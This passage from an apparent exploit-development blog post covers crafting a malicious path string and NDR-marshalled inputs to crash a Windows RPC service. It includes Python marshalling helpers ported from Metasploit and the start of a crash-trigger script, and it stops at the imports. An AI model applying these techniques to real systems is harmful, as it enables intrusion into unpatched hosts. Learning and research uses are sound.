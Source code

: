  {% highlight python %}
 "\\A\\..\\..\\" + "A" * 74 
  {% endhighlight %} 
  
  And the one you can find at the metasploit implementation of the exploit, initialy tryed the first one when i started working on the rop chain, realised space was short, so i decided to go with the metasploit version, but building that in the format you see above is royal pain the ass, so i after looking around i finaly understood how they were building that so there are the funtions that will be used to craft that cryptic string.  
  
  
{% highlight python %}

def ndr_long(value):
     return pack("<L", value)
	 
	def ndr_aling(value):
     return "\x00" * ((4 - (len(value) & 3)) & 3)
	 
def ndr_uwstring(value):
     value = value + "\x00"
     rvalue = ndr_long(randint(1, 0xffffffff))
     length = ndr_long(len(value))
     utf16_value = value.encode("utf-16le")
     aligned_utf16_value = ndr_aling(utf16_value)
    
     return rvalue + length + ndr_long(0) + length + utf16_value + aligned_utf16_value
	 
def ndr_wstring(value):
     value = value + "\x00"
     length = ndr_long(len(value))
     utf16_value = value.encode("utf-16le")
     aligned_utf16_value = ndr_aling(utf16_value)
    
     return length + ndr_long(0) + length + utf16_value + aligned_utf16_value
	 
def ndr_wstring_prebuilt(value):
     if len(value) % 2 > 0:
         value = value + "\x00"
        
     length = len(value) / 2
     llength = ndr_long(length)
     return llength + ndr_long(0) + llength + value + ndr_aling(value)
 
{% endhighlight %}
  
  As incredible as it might seem the simplest implementation was taken from metasploit!!! yeah probably the first time i was able to understand ruby :P, i tryed to use the **python impacket** type implementation but i wasn't able to trigger the bug, not realy shore why, the above is far for an acurate its only correct enough to go beyond the initial service checks and trigger the bug.  
  
  BLAH BLAH BLAH Show us the crash, OK...  
  
  ![Trigger]({{ site.url }}/assets/trigger.png) 
  
  So the code for that crash is as follows:
  
  {% highlight python %}
	#!/usr/bin/python
	# -*- coding: utf-8 -*-
	
	import sys
	from struct import pack
	from string import ascii_uppercase
	from random import randint
	from random import choice
	from impacket import smb
	from impacket import uuid
	from impacket import dcerpc